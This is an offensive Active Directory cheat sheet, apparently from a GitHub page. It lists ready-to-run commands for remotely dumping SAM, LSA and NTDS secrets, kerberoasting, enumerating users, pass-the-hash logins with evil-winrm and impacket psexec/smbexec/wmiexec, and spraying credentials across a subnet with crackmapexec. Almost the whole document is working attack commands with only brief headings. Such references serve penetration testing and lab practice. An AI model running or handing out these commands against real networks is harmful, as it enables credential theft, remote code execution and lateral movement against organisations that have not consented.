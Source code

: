 # Active Directory
## Secrets Dump
Dump sam and lsa remotely.
```
impacket-secretsdump username:password@10.10.10.15
impacket-secretsdump username:password@10.10.10.15 -outputfile hash.txt
```

## kerberoasting
```
impacket-GetUserSPNs domain.local/some_user:Password! -dc-ip 10.10.10.10 -request
```

## kerbrute - user enumeration
```
./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## evil-winrm
```
#If using password
evil-winrm -i 10.10.1.10 -u Administrator

#If using hash
evil-winrm -i 10.10.1.10 -u Administrator -H NTLM_HASH_HERE 
```

## impacket-smbclient
```
impacket-smbclient domain.local/username@10.10.10.10
```

## psexec / smbexec / wmiexec
```
impacket-smbexec administrator:'password'@10.129.1.21
impacket-wmiexec administrator:'password'@10.129.1.21
impacket-psexec 'domain.local/some_user'@10.11.1.122 -hashes ':NT_HASH_HERE'
impacket-psexec Administrator:'Password!'@192.168.1.22
impacket-psexec 'administrator'@172.10.1.1 -hashes ':4c827b7074e99eefd49d05872185f7f8'
```

## crackmapexec
```
crackmapexec smb 10.10.10.0/24 -u 'administrator' -H 'NTLM_HASH_HERE'
crackmapexec smb 10.10.10.0/24 -u 'administrator' -p 'Password!'
crackmapexec smb 10.10.10.0/24 -u 'some_user' -p 'Password!' --shares
crackmapexec smb 10.10.10.0/24 -u 'administrator' -H 'NTLM_HASH_HERE' --shares
crackmapexec smb 10.10.10.0/24 -u 'administrator' -H 'NTLM_HASH_HERE' --ntds
crackmapexec smb 10.10.10.0/24 -u users.txt -p passwords.txt --sam 
crackmapexec smb 10.10.10.0/24 -u users.txt -p passwords.txt --lsa
crackmapexec smb 10.10.10.0/24 -u users.txt -p passwords.txt --local-auth --lsa
crackmapexec smb 10.10.10.0/24 -u users.txt -p passwords.txt --continue-on-success
```
